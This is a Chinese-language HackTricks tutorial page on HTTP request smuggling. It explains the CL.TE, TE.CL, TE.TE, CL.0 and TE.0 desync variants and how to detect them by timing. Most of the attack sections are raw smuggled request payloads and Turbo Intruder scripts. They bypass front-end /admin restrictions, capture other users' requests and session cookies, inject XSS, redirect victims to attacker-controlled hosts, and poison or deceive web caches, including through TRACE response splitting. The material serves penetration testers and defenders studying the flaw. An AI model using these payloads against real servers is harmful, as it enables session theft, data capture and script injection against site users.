

HTTP Request Smuggling / HTTP Desync Attack
{% hint style="success" %}
学习和实践 AWS 黑客技术： HackTricks 培训 AWS 红队专家 (ARTE)
HackTricks 培训 AWS 红队专家 (ARTE)
学习和实践 GCP 黑客技术： HackTricks 培训 GCP 红队专家 (GRTE)
HackTricks 培训 GCP 红队专家 (GRTE)
支持 HackTricks
- 查看 订阅计划!
- 加入 💬 Discord 群组 或 Telegram 群组 或 关注 我们的 Twitter 🐦 @hacktricks_live.
- 通过向 HackTricks 和 HackTricks Cloud GitHub 仓库提交 PR 分享黑客技巧。

从黑客的角度审视您的网络应用、网络和云
发现并报告具有实际商业影响的关键可利用漏洞。 使用我们 20 多个自定义工具来映射攻击面，查找允许您提升权限的安全问题，并使用自动化利用收集重要证据，将您的辛勤工作转化为有说服力的报告。
{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}
什么是
当 前端代理 和 后端 服务器之间发生 不同步 时，允许 攻击者 发送一个 HTTP 请求，该请求将被 前端 代理（负载均衡/反向代理）解释为 单个请求，而被 后端 服务器解释为 两个请求。
这使得用户能够 修改到达后端服务器的下一个请求。
理论
如果收到的消息同时包含 Transfer-Encoding 头字段和 Content-Length 头字段，则后者必须被忽略。
Content-Length
Content-Length 实体头指示发送给接收方的实体主体的大小（以字节为单位）。
Transfer-Encoding: chunked
Transfer-Encoding 头指定用于安全传输有效负载主体的编码形式。
Chunked 意味着大数据以一系列块的形式发送。
现实
前端（负载均衡/反向代理）处理 content-length 或 transfer-encoding 头，而 后端 服务器 处理另一个，导致两个系统之间的 不同步。
这可能非常关键，因为 攻击者将能够向反向代理发送一个请求，该请求将被 后端 服务器 解释为两个不同的请求。这种技术的 危险 在于 后端 服务器 将解释 注入的第二个请求，就好像它 来自下一个客户端，而该客户端的 真实请求 将是 注入请求 的 一部分。
特点
请记住，在 HTTP 中 换行符由 2 个字节组成：
- Content-Length：此头使用 十进制数字 指示请求 主体 的 字节数。主体预计在最后一个字符结束，请求末尾不需要换行。
- Transfer-Encoding: 此头在 主体 中使用 十六进制数字 指示 下一个块 的 字节数。块 必须以 换行 结束，但此换行 不计入 长度指示符。此传输方法必须以 大小为 0 的块后跟 2 个换行 结束：
0 - Connection：根据我的经验，建议在请求 Smuggling 的第一个请求中使用
Connection: keep-alive。
基本示例
{% hint style="success" %}
在尝试使用 Burp Suite 利用此漏洞时，请 禁用 Update Content-Length 和 Normalize HTTP/1 line endings，因为某些工具滥用换行符、回车和格式错误的内容长度。
{% endhint %}
HTTP 请求走私攻击是通过发送模棱两可的请求来构造的，这些请求利用了前端和后端服务器在解释 Content-Length (CL) 和 Transfer-Encoding (TE) 头时的差异。这些攻击可以以不同形式表现，主要为 CL.TE、TE.CL 和 TE.TE。每种类型代表前端和后端服务器如何优先处理这些头的独特组合。漏洞源于服务器以不同方式处理相同请求，导致意外和潜在的恶意结果。
漏洞类型的基本示例

{% hint style="info" %} 在之前的表格中，您应该添加 TE.0 技术，类似于 CL.0 技术，但使用 Transfer Encoding。 {% endhint %}
CL.TE 漏洞（前端使用 Content-Length，后端使用 Transfer-Encoding）
- 前端 (CL)： 根据
Content-Length头处理请求。 - 后端 (TE)： 根据
Transfer-Encoding头处理请求。 - 攻击场景：
- 攻击者发送一个请求，其中
Content-Length头的值与实际内容长度不匹配。 - 前端服务器根据
Content-Length值将整个请求转发给后端。 - 后端服务器由于
Transfer-Encoding: chunked头将请求处理为分块，解释剩余数据为一个单独的后续请求。 - 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 30
Connection: keep-alive
Transfer-Encoding: chunked
0
GET /404 HTTP/1.1
Foo: x
TE.CL 漏洞（前端使用 Transfer-Encoding，后端使用 Content-Length）
- 前端 (TE)： 根据
Transfer-Encoding头处理请求。 - 后端 (CL)： 根据
Content-Length头处理请求。 - 攻击场景：
- 攻击者发送一个分块请求，其中块大小（
7b）和实际内容长度（Content-Length: 4）不一致。 - 前端服务器尊重
Transfer-Encoding，将整个请求转发给后端。 - 后端服务器尊重
Content-Length，仅处理请求的初始部分（7b字节），将其余部分留作意外的后续请求的一部分。 - 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 4
Connection: keep-alive
Transfer-Encoding: chunked
7b
GET /404 HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
x=
0
TE.TE 漏洞（两者都使用 Transfer-Encoding，带混淆）
- 服务器： 两者都支持
Transfer-Encoding，但可以通过混淆被欺骗以忽略它。 - 攻击场景：
- 攻击者发送一个带有混淆
Transfer-Encoding头的请求。 - 根据哪个服务器（前端或后端）未能识别混淆，可能会利用 CL.TE 或 TE.CL 漏洞。
- 请求中未处理的部分，作为其中一个服务器所见，成为后续请求的一部分，导致走私。
- 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: xchunked
Transfer-Encoding : chunked
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding: chunked
Transfer-Encoding: x
Transfer-Encoding:[tab]chunked
[space]Transfer-Encoding: chunked
X: X[\n]Transfer-Encoding: chunked
Transfer-Encoding
: chunked
CL.CL 场景（前端和后端都使用 Content-Length）
- 两个服务器仅根据
Content-Length头处理请求。 - 此场景通常不会导致走私，因为两个服务器在解释请求长度时是一致的。
- 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive
正常请求
CL.0 场景
- 指的是
Content-Length头存在且值不为零的场景，表明请求主体有内容。后端忽略Content-Length头（被视为 0），但前端解析它。 - 这在理解和构造走私攻击时至关重要，因为它影响服务器确定请求结束的方式。
- 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 16
Connection: keep-alive
非空主体
TE.0 场景
- 类似于前一个场景，但使用 TE
- 技术 在这里报告
- 示例:
OPTIONS / HTTP/1.1
Host: {HOST}
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.6312.122 Safari/537.36
Transfer-Encoding: chunked
Connection: keep-alive
50
GET <http://our-collaborator-server/> HTTP/1.1
x: X
0
EMPTY_LINE_HERE
EMPTY_LINE_HERE
破坏网络服务器
此技术在可以在读取初始HTTP数据时破坏网络服务器但不关闭连接的场景中也很有用。这样，HTTP请求的主体将被视为下一个HTTP请求。
例如，如这篇文章中所解释的，在Werkzeug中可以发送一些Unicode字符，这将使服务器崩溃。然而，如果HTTP连接是使用**Connection: keep-alive头创建的，请求的主体将不会被读取，连接仍将保持打开状态，因此请求的主体将被视为下一个HTTP请求**。
通过逐跳头强制
滥用逐跳头，您可以指示代理删除Content-Length或Transfer-Encoding头，以便可以滥用HTTP请求走私。
Connection: Content-Length
对于有关逐跳头部的更多信息，请访问：
{% content-ref url="../abusing-hop-by-hop-headers.md" %} abusing-hop-by-hop-headers.md {% endcontent-ref %}
查找 HTTP 请求走私
识别 HTTP 请求走私漏洞通常可以通过时间技术实现，这依赖于观察服务器响应被操纵请求所需的时间。这些技术对于检测 CL.TE 和 TE.CL 漏洞特别有用。除了这些方法，还有其他策略和工具可以用来查找此类漏洞：
使用时间技术查找 CL.TE 漏洞
- 方法：
- 发送一个请求，如果应用程序存在漏洞，将导致后端服务器等待额外数据。
- 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 4
1
A
0
- 观察：
- 前端服务器根据
Content-Length处理请求，并提前截断消息。 - 后端服务器期望接收分块消息，等待下一个从未到达的块，导致延迟。
- 指标：
- 响应超时或长时间延迟。
- 从后端服务器收到 400 Bad Request 错误，有时附带详细的服务器信息。
使用时间技术查找 TE.CL 漏洞
- 方法：
- 发送一个请求，如果应用程序存在漏洞，将导致后端服务器等待额外数据。
- 示例：
POST / HTTP/1.1
Host: vulnerable-website.com
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 6
0
X
- 观察：
- 前端服务器根据
Transfer-Encoding处理请求并转发整个消息。 - 后端服务器期望根据
Content-Length接收消息，等待从未到达的额外数据，导致延迟。
查找漏洞的其他方法
- 差异响应分析：
- 发送略有不同版本的请求，观察服务器响应是否以意外方式不同，指示解析差异。
- 使用自动化工具：
- 像 Burp Suite 的 'HTTP Request Smuggler' 扩展可以通过发送各种模糊请求并分析响应，自动测试这些漏洞。
- Content-Length 变异测试：
- 发送具有不同
Content-Length值的请求，这些值与实际内容长度不一致，并观察服务器如何处理这些不匹配。 - Transfer-Encoding 变异测试：
- 发送具有模糊或格式错误的
Transfer-Encoding头的请求，并监控前端和后端服务器如何对这些操控做出不同响应。
HTTP 请求走私漏洞测试
在确认时间技术的有效性后，验证客户端请求是否可以被操纵至关重要。一个简单的方法是尝试毒化你的请求，例如，使对 / 的请求返回 404 响应。之前在 基本示例 中讨论的 CL.TE 和 TE.CL 示例演示了如何毒化客户端请求以引发 404 响应，尽管客户端旨在访问不同的资源。
关键考虑事项
在通过干扰其他请求测试请求走私漏洞时，请记住：
- 独立网络连接： “攻击”和“正常”请求应通过独立的网络连接发送。对两者使用相同连接并不能验证漏洞的存在。
- 一致的 URL 和参数： 力求对两个请求使用相同的 URL 和参数名称。现代应用程序通常根据 URL 和参数将请求路由到特定的后端服务器。匹配这些可以增加两个请求由同一服务器处理的可能性，这是成功攻击的前提。
- 时间和竞争条件： “正常”请求旨在检测“攻击”请求的干扰，与其他并发应用请求竞争。因此，在“攻击”请求后立即发送“正常”请求。繁忙的应用程序可能需要多次尝试以确认漏洞。
- 负载均衡挑战： 作为负载均衡器的前端服务器可能会将请求分配到不同的后端系统。如果“攻击”和“正常”请求最终落在不同的系统上，攻击将不会成功。这个负载均衡方面可能需要多次尝试以确认漏洞。
- 意外用户影响： 如果你的攻击无意中影响了另一个用户的请求（不是你发送的“正常”请求以进行检测），这表明你的攻击影响了另一个应用用户。持续测试可能会干扰其他用户，因此需要谨慎处理。
滥用 HTTP 请求走私
通过 HTTP 请求走私绕过前端安全
有时，前端代理会实施安全措施，审查传入请求。然而，这些措施可以通过利用 HTTP 请求走私来规避，从而允许未经授权访问受限端点。例如，访问 /admin 可能在外部被禁止，前端代理积极阻止此类尝试。然而，这个代理可能忽略了在走私的 HTTP 请求中嵌入的请求，从而留下了绕过这些限制的漏洞。
考虑以下示例，说明如何使用 HTTP 请求走私绕过前端安全控制，特别是针对通常由前端代理保护的 /admin 路径：
CL.TE 示例
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 67
Transfer-Encoding: chunked
0
GET /admin HTTP/1.1
Host: localhost
Content-Length: 10
x=
在CL.TE攻击中，初始请求利用了Content-Length头，而后续嵌入请求则使用Transfer-Encoding: chunked头。前端代理处理初始POST请求，但未能检查嵌入的GET /admin请求，从而允许对/admin路径的未经授权访问。
TE.CL 示例
POST / HTTP/1.1
Host: [redacted].web-security-academy.net
Cookie: session=[redacted]
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 4
Transfer-Encoding: chunked
2b
GET /admin HTTP/1.1
Host: localhost
a=x
0
相反，在TE.CL攻击中，初始的POST请求使用Transfer-Encoding: chunked，而后续的嵌入请求则基于Content-Length头进行处理。与CL.TE攻击类似，前端代理忽视了被隐藏的GET /admin请求，意外地授予了对受限/admin路径的访问。
显示前端请求重写
应用程序通常使用前端服务器来修改传入请求，然后将其传递给后端服务器。典型的修改涉及添加头信息，例如X-Forwarded-For: <IP of the client>，以将客户端的IP转发给后端。理解这些修改可能至关重要，因为它可能揭示绕过保护或发现隐藏的信息或端点的方法。
要调查代理如何更改请求，找到一个后端在响应中回显的POST参数。然后，构造一个请求，使用这个参数作为最后一个，类似于以下内容：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 130
Connection: keep-alive
Transfer-Encoding: chunked
0
POST /search HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 100
search=
在这个结构中，后续请求组件被附加在 search= 之后，这是在响应中反映的参数。这个反映将暴露后续请求的头部。
重要的是要将嵌套请求的 Content-Length 头与实际内容长度对齐。建议从一个小值开始，并逐渐增加，因为过低的值会截断反映的数据，而过高的值可能会导致请求出错。
该技术在 TE.CL 漏洞的上下文中也适用，但请求应以 search=\r\n0 结束。无论换行符如何，值将附加到搜索参数中。
此方法主要用于理解前端代理所做的请求修改，基本上进行自我导向的调查。
捕获其他用户的请求
通过在 POST 操作期间将特定请求附加为参数的值，可以捕获下一个用户的请求。以下是如何实现这一点的：
通过将以下请求附加为参数的值，您可以存储后续客户端的请求：
POST / HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 319
Connection: keep-alive
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
Transfer-Encoding: chunked
0
POST /post/comment HTTP/1.1
Host: ac031feb1eca352f8012bbe900fa00a1.web-security-academy.net
Content-Length: 659
Content-Type: application/x-www-form-urlencoded
Cookie: session=4X6SWQeR8KiOPZPF2Gpca2IKeA1v4KYi
csrf=gpGAVAbj7pKq7VfFh45CAICeFCnancCM&postId=4&name=asdfghjklo&email=email%40email.com&comment=
在这种情况下，comment 参数旨在存储在公开可访问页面的帖子评论部分中的内容。因此，后续请求的内容将作为评论出现。
然而，这种技术有其局限性。通常，它仅捕获直到在走私请求中使用的参数分隔符的数据。对于 URL 编码的表单提交，这个分隔符是 & 字符。这意味着从受害用户请求中捕获的内容将在第一个 & 处停止，这可能甚至是查询字符串的一部分。
此外，值得注意的是，这种方法在 TE.CL 漏洞中也是可行的。在这种情况下，请求应以 search=\r\n0 结束。无论换行符如何，值将附加到搜索参数中。
使用 HTTP 请求走私来利用反射型 XSS
HTTP 请求走私可以被用来利用易受 反射型 XSS 攻击的网页，提供显著的优势：
- 不需要与目标用户互动。
- 允许在请求的 通常无法达到 的部分利用 XSS，例如 HTTP 请求头。
在网站通过 User-Agent 头部易受反射型 XSS 攻击的情况下，以下有效载荷演示了如何利用此漏洞：
POST / HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:75.0) Gecko/20100101 Firefox/75.0
Cookie: session=ac311fa41f0aa1e880b0594d008d009e
Transfer-Encoding: chunked
Connection: keep-alive
Content-Length: 213
Content-Type: application/x-www-form-urlencoded
0
GET /post?postId=2 HTTP/1.1
Host: ac311fa41f0aa1e880b0594d008d009e.web-security-academy.net
User-Agent: "><script>alert(1)</script>
Content-Length: 10
Content-Type: application/x-www-form-urlencoded
A=
这个有效载荷的结构旨在利用漏洞，通过以下方式：
- 发起一个看似典型的
POST请求，带有Transfer-Encoding: chunked头部以指示开始进行走私。 - 随后跟随一个
0，标记块消息体的结束。 - 然后，引入一个走私的
GET请求，其中User-Agent头部注入了一个脚本，<script>alert(1)</script>，当服务器处理这个后续请求时触发 XSS。
通过走私操控 User-Agent，该有效载荷绕过了正常请求约束，从而以非标准但有效的方式利用了反射型 XSS 漏洞。
HTTP/0.9
{% hint style="danger" %}
如果用户内容在响应中以 Content-type 反射，例如 text/plain，将阻止 XSS 的执行。如果服务器支持 HTTP/0.9，可能可以绕过这一点！
{% endhint %}
版本 HTTP/0.9 早于 1.0，仅使用 GET 动词，并且 不 响应 头部，只有主体。
在 这篇文章 中，利用了请求走私和一个 会回复用户输入的易受攻击端点 来走私一个 HTTP/0.9 请求。响应中反射的参数包含一个 伪造的 HTTP/1.1 响应（带有头部和主体），因此响应将包含有效的可执行 JS 代码，Content-Type 为 text/html。
利用 HTTP 请求走私进行站内重定向
应用程序通常通过使用重定向 URL 中的 Host 头部的主机名从一个 URL 重定向到另一个 URL。这在像 Apache 和 IIS 这样的 Web 服务器中很常见。例如，请求一个没有尾部斜杠的文件夹会导致重定向以包含斜杠：
GET /home HTTP/1.1
Host: normal-website.com
结果为：
HTTP/1.1 301 Moved Permanently
Location: https://normal-website.com/home/
尽管看似无害，但这种行为可以通过HTTP请求走私进行操控，以将用户重定向到外部网站。例如：
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 54
Connection: keep-alive
Transfer-Encoding: chunked
0
GET /home HTTP/1.1
Host: attacker-website.com
Foo: X
这个被走私的请求可能导致下一个处理的用户请求被重定向到攻击者控制的网站：
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
结果为：
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
在这个场景中，用户对 JavaScript 文件的请求被劫持。攻击者可以通过响应中提供恶意 JavaScript 来潜在地危害用户。
通过 HTTP 请求走私利用 Web 缓存中毒
如果 前端基础设施的任何组件缓存内容，则可以执行 Web 缓存中毒，通常是为了提高性能。通过操纵服务器的响应，可以 毒化缓存。
之前，我们观察到如何可以更改服务器响应以返回 404 错误（参见 基本示例）。同样，可以欺骗服务器以响应对 /static/include.js 的请求而提供 /index.html 内容。因此，/static/include.js 的内容在缓存中被替换为 /index.html 的内容，使得 /static/include.js 对用户不可访问，可能导致服务拒绝（DoS）。
如果发现 开放重定向漏洞 或者存在 指向开放重定向的站内重定向，这种技术变得特别强大。这些漏洞可以被利用来将 /static/include.js 的缓存内容替换为攻击者控制的脚本，从而实质上使所有请求更新的 /static/include.js 的客户端面临广泛的跨站脚本（XSS）攻击。
下面是利用 缓存中毒结合站内重定向到开放重定向 的示例。目标是更改 /static/include.js 的缓存内容，以提供由攻击者控制的 JavaScript 代码：
POST / HTTP/1.1
Host: vulnerable.net
Content-Type: application/x-www-form-urlencoded
Connection: keep-alive
Content-Length: 124
Transfer-Encoding: chunked
0
GET /post/next?postId=3 HTTP/1.1
Host: attacker.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10
x=1
注意嵌入的请求针对 /post/next?postId=3。该请求将被重定向到 /post?postId=4，利用 Host 头部值 来确定域名。通过更改 Host 头部，攻击者可以将请求重定向到他们的域名 (站内重定向到开放重定向)。
在成功的 socket poisoning 之后，应发起对 /static/include.js 的 GET 请求。该请求将受到先前 站内重定向到开放重定向 请求的污染，并获取由攻击者控制的脚本内容。
随后，任何对 /static/include.js 的请求将提供攻击者脚本的缓存内容，有效地发起广泛的 XSS 攻击。
使用 HTTP 请求走私进行网络缓存欺骗
网络缓存中毒和网络缓存欺骗有什么区别？
- 在 网络缓存中毒 中，攻击者使应用程序在缓存中存储一些恶意内容，并且这些内容从缓存中提供给其他应用程序用户。
- 在 网络缓存欺骗 中，攻击者使应用程序在缓存中存储属于另一个用户的一些敏感内容，然后攻击者从缓存中检索这些内容。
攻击者构造一个走私请求，以获取敏感的用户特定内容。考虑以下示例：
`POST / HTTP/1.1`\
`Host: vulnerable-website.com`\
`Connection: keep-alive`\
`Content-Length: 43`\
`Transfer-Encoding: chunked`\
``\ `0`\``\
`GET /private/messages HTTP/1.1`\
`Foo: X`
如果这个被走私的请求污染了用于静态内容的缓存条目（例如，/someimage.png），那么受害者在/private/messages中的敏感数据可能会被缓存到静态内容的缓存条目下。因此，攻击者可能会检索到这些缓存的敏感数据。
通过HTTP请求走私滥用TRACE
在这篇文章中 建议如果服务器启用了TRACE方法，可能会通过HTTP请求走私进行滥用。这是因为该方法会将发送到服务器的任何头部反射为响应体的一部分。例如：
TRACE / HTTP/1.1
Host: example.com
XSS: <script>alert("TRACE")</script>
将发送如下响应：
HTTP/1.1 200 OK
Content-Type: message/http
Content-Length: 115
TRACE / HTTP/1.1
Host: vulnerable.com
XSS: <script>alert("TRACE")</script>
X-Forwarded-For: xxx.xxx.xxx.xxx
一个滥用这种行为的例子是首先伪装一个HEAD请求。这个请求将只会返回一个GET请求的头部（其中包括**Content-Type）。然后在HEAD请求后立即伪装一个TRACE请求**，该请求将反射发送的数据。
由于HEAD响应将包含一个Content-Length头，TRACE请求的响应将被视为HEAD响应的主体，因此在响应中反射任意数据。
这个响应将被发送到连接上的下一个请求，因此这可以用于缓存的JS文件中，例如注入任意的JS代码。
通过HTTP响应拆分滥用TRACE
继续关注这篇文章建议了另一种滥用TRACE方法的方式。如评论所述，伪装一个HEAD请求和一个TRACE请求可以控制HEAD请求响应中的一些反射数据。HEAD请求主体的长度基本上在Content-Length头中指示，并由TRACE请求的响应形成。
因此，新的想法是，知道这个Content-Length和TRACE响应中给出的数据，可以使TRACE响应在Content-Length的最后一个字节之后包含一个有效的HTTP响应，从而允许攻击者完全控制下一个响应的请求（这可以用于执行缓存污染）。
示例：
GET / HTTP/1.1
Host: example.com
Content-Length: 360
HEAD /smuggled HTTP/1.1
Host: example.com
POST /reflect HTTP/1.1
Host: example.com
SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok\r\n
Content-Type: text/html\r\n
Cache-Control: max-age=1000000\r\n
Content-Length: 44\r\n
\r\n
<script>alert("response splitting")</script>
将生成这些响应（注意HEAD响应具有Content-Length，使得TRACE响应成为HEAD主体的一部分，一旦HEAD Content-Length结束，一个有效的HTTP响应被走私）：
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 0
HTTP/1.1 200 OK
Content-Type: text/html
Content-Length: 165
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 243
SOME_PADDINGXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXHTTP/1.1 200 Ok
Content-Type: text/html
Cache-Control: max-age=1000000
Content-Length: 50
<script>alert(“arbitrary response”)</script>
利用HTTP响应不同步进行HTTP请求走私
您是否发现了一些HTTP请求走私漏洞，但不知道如何利用它？尝试这些其他的利用方法：
{% content-ref url="../http-response-smuggling-desync.md" %} http-response-smuggling-desync.md {% endcontent-ref %}
其他HTTP请求走私技术
- 浏览器HTTP请求走私（客户端）
{% content-ref url="browser-http-request-smuggling.md" %} browser-http-request-smuggling.md {% endcontent-ref %}
- HTTP/2降级中的请求走私
{% content-ref url="request-smuggling-in-http-2-downgrades.md" %} request-smuggling-in-http-2-downgrades.md {% endcontent-ref %}
Turbo入侵者脚本
CL.TE
来自 https://hipotermia.pw/bb/http-desync-idor
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()
attack = '''POST / HTTP/1.1
Transfer-Encoding: chunked
Host: xxx.com
Content-Length: 35
Foo: bar
0
GET /admin7 HTTP/1.1
X-Foo: k'''
engine.queue(attack)
victim = '''GET / HTTP/1.1
Host: xxx.com
'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)
def handleResponse(req, interesting):
table.add(req)
TE.CL
来自: https://hipotermia.pw/bb/http-desync-account-takeover
def queueRequests(target, wordlists):
engine = RequestEngine(endpoint=target.endpoint,
concurrentConnections=5,
requestsPerConnection=1,
resumeSSL=False,
timeout=10,
pipeline=False,
maxRetriesPerRequest=0,
engine=Engine.THREADED,
)
engine.start()
attack = '''POST / HTTP/1.1
Host: xxx.com
Content-Length: 4
Transfer-Encoding : chunked
46
POST /nothing HTTP/1.1
Host: xxx.com
Content-Length: 15
kk
0
'''
engine.queue(attack)
victim = '''GET / HTTP/1.1
Host: xxx.com
'''
for i in range(14):
engine.queue(victim)
time.sleep(0.05)
def handleResponse(req, interesting):
table.add(req)
工具
- https://github.com/anshumanpattnaik/http-request-smuggling
- https://github.com/PortSwigger/http-request-smuggler
- https://github.com/gwen001/pentest-tools/blob/master/smuggler.py
- https://github.com/defparam/smuggler
- https://github.com/Moopinger/smugglefuzz
- https://github.com/bahruzjabiyev/t-reqs-http-fuzzer: 该工具是一个基于语法的HTTP模糊测试工具，有助于发现奇怪的请求走私差异。
参考资料
- https://portswigger.net/web-security/request-smuggling
- https://portswigger.net/web-security/request-smuggling/finding
- https://portswigger.net/web-security/request-smuggling/exploiting
- https://medium.com/cyberverse/http-request-smuggling-in-plain-english-7080e48df8b4
- https://github.com/haroonawanofficial/HTTP-Desync-Attack/
- https://memn0ps.github.io/2019/11/02/HTTP-Request-Smuggling-CL-TE.html
- https://standoff365.com/phdays10/schedule/tech/http-request-smuggling-via-higher-http-versions/
- https://portswigger.net/research/trace-desync-attack
- https://www.bugcrowd.com/blog/unveiling-te-0-http-request-smuggling-discovering-a-critical-vulnerability-in-thousands-of-google-cloud-websites/
从黑客的角度看待您的网络应用、网络和云
发现并报告具有实际商业影响的关键可利用漏洞。 使用我们20多个自定义工具来映射攻击面，找到让您提升权限的安全问题，并使用自动化漏洞收集重要证据，将您的辛勤工作转化为有说服力的报告。
{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}
{% hint style="success" %}
学习和实践AWS黑客攻击：HackTricks培训AWS红队专家（ARTE）
学习和实践GCP黑客攻击：HackTricks培训GCP红队专家（GRTE）
支持HackTricks
- 查看订阅计划!
- 加入 💬 Discord群组或电报群组或在 Twitter 🐦 @hacktricks_live上关注我们。
- 通过向 HackTricks和HackTricks Cloud GitHub库提交PR来分享黑客技巧。